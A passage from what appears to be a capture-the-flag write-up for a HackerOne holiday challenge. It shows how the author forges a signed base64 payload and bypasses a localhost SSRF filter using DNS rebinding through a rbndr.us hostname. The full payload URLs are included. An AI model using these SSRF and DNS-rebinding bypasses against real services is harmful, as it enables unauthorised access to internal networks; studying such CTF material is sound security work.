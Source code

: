 {"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"} ---> encrypt base64 --> eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==
```

+ Our final payload in the url will be:

https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==

**Response**

https://hackyholidays.h1ctf.com/attack-box/launch/1dabfbbbea602fefc21f33e24b399833

{F1139937}

+Connection aborted, looks like localhost can't be attacked directly.

+ In the ssrf bypass for the above case (127.0.0.1), I've tried decimal, octal, and differents encoding, didn't worked, tried location header exploit didn't work. 

+ So, I left my computer for a while and got an idea as this CTF was also organized by nahamsec, there might be a case of DNS rebinding attack. [As per Snapchat ssrf exploit which I've already seen]

+ To perform DNS rebinding attacks, I've gone through https://github.com/taviso/rbndr.

In the https://github.com/taviso/rbndr, there was a site as 7f000001.c0a80001.rbndr.us

+ Which it was configured with 127.0.0.1 and 192.168.0.1



finally encrypted with md5 hash salt

```
mrgrinch463mrgrinch4637f000001.c0a80001.rbndr.us

MD5 encrypted salt - de9d82d4ae9a61660701e7e1844ea643

{"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}

base64 encode

eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9
```

+ So, our final payload will be: 

https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9

+ This payload can take 4 or 5 times to retry to get the final result.
**Response**

{F1140059}

+ After taking down the grinch network on localhost, it'll redirect to https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709


{F1140065}

```
